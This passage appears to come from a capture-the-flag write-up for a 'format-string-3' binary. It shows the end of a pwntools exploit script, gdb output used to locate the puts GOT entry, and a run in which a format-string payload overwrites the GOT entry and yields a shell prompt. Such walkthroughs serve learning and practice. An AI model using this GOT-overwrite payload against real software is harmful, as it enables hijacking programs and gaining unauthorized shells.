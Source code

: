 ```python
   conn.sendline(payload)
   conn.interactive()
   

send_payload()
# find_offset()
```

First, we find the offset of the **stack arguments** where our input starts, using `find_offset()`, which is **38**.
Then, we find the address of the `puts@got.plt` entry in the program.  

I will do this using `gdb`.  
- I set a breakpoint at `puts@plt`
- Run the program
- Disassemble when it pauses

```
(gdb) b puts@plt
Breakpoint 1 at 0x401080
(gdb) r
Starting program: /home/george/Downloads/format-string-3 
warning: Expected absolute pathname for libpthread in the inferior, but got ./libc.so.6.
warning: Unable to find libthread_db matching inferior's thread library, thread debugging will not be available.

Breakpoint 1, 0x0000000000401080 in puts@plt ()
(gdb) disas
Dump of assembler code for function puts@plt:
=> 0x0000000000401080 <+0>:	endbr64
   0x0000000000401084 <+4>:	bnd jmp *0x2f8d(%rip)        # 0x404018 <puts@got.plt>
   0x000000000040108b <+11>:	nopl   0x0(%rax,%rax,1)
End of assembler dump.
```

We see the jump inside `puts@plt`, which `gdb` calculates and says it is **0x404018**.

With all this, our script is **ready**.  
It **extracts** the `setvbuf` address from the output, **increments** it by **0x60440** like we calculated, **crafts** the payload and **sends** it.  

Now we can **run** it

```
[+] Starting local process './format-string-3': pid 27426
b'Howdy gamers!\n'
0x7f7380741830
b'%48c%46$lln%67c%47$hhnc%48$hhn%11c%49$hhnc%50$hhn%152c%51$hhnaaa\x18@@\x00\x00\x00\x00\x00\x1c@@\x00\x00\x00\x00\x00\x1a@@\x00\x00\x00\x00\x00\x1d@@\x00\x00\x00\x00\x00\x1b@@\x00\x00\x00\x00\x00\x19@@\x00\x00\x00\x00\x00'
[*] Switching to interactive mode
                                               c                                                                  \x8bc          \xf0c                                                                                                                                                       \x01aaa\x18@@$  
$ 
```
